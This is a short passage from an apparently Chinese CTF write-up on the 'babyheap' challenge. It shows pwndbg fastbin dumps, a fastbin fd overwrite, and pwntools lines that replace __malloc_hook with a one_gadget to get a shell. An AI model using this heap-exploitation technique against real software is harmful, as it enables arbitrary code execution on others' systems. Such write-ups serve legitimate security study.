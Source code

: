 ```
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x5555557570a0 ◂— 0x61 /* 'a' */
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
修改fd后:
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x5555557570a0 ◂— 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
然后再malloc回来：
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
这样就顺利将fastbin清空了,最后顺利修改__malloc_hook为one_gadget，顺利getshell：
```
alloc(0x58)#11 获得到目标chunk
update(11,8,p64(libc_base+one_offset))
alloc(0x58)#触发__malloc_hook
p.interactive()
```
```
[*] Switching to interactive mode
$ ls
babyheap  babyheap.i64    core  exp.py
$ 
```
